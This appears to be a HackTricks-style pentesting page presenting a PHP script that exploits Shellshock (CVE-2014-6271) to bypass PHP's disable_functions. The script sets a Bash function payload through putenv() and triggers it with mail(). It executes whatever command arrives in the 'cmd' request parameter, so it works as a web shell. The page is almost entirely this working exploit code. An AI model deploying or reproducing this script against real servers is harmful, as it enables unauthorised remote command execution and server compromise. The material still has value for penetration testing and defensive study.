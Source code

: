 # PHP 5.x Shellshock Exploit
{{#include /banners/hacktricks-training.md}}


{{#include ../../../../banners/hacktricks-training.md}}

From [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)

```php
<?php

echo "Disabled functions: ".ini_get('disable_functions')."\n";
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```

{{#include ../../../../banners/hacktricks-training.md}}
